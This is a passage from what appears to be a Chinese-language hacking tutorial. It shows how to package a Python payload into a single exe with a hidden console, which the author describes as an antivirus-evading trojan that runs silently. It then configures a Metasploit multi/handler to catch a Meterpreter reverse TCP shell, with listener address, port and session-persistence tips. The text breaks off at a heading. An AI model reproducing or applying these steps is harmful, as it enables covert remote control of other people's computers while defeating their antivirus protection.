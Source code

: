 ###### (4) 利用pywin32打包成exe文件:

进入到pyinstaller所在目录(默认安装后在Scripts目录下),然后运行:

![image-20200115113932194.png](https://ae01.alicdn.com/kf/U0a356482e19e49d197201a4209094287U.png)

参数解释:

```
-F:输出为单个文件(会把所有的第三方依赖、资源和代码均被打包进该exe内)
-i:指定图标
-w:隐藏控制台

pyinstaller参数可参考:
https://blog.csdn.net/weixin_39000819/article/details/80942423
```

运行后等待结束会在dist目录下生成一个exe文件(就是我们打包好的免杀马):

![image-20200115114000664.png](https://ae01.alicdn.com/kf/Ua769bfc1d09745ea8a48e9cffdc0010bt.png)

生成的exe:

![image-20200115114010720.png](https://ae01.alicdn.com/kf/U1064f9812bcb44b69895bc46be2871ceM.png)

运行后什么也不显示,但是可以成功上线,是相当隐蔽的.

这个目前还可以免杀,不过是静态的!它执行一些危险的命令杀毒软件会拦截!

### 0x05 msfconsole使用小技巧

msfvenom生成了木马文件,我们就可以来使用msfconsole来获取其反弹的shell.

#### 举例:

##### 1、最简单的使用:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.81.160
set LPORT 9999
exploit

这里要注意的是payload、LHOST和LPORT要与msfvenom生成马时指定的一样
```

##### 2、其他一些小技巧:

###### (1) 防止一些seession刚刚连接就断开

```
msf exploit(multi/handler) >set ExitOnSession false   //可以在接收到seesion后继续监听端口，保持侦听。
```

###### (2)  防止session意外退出:
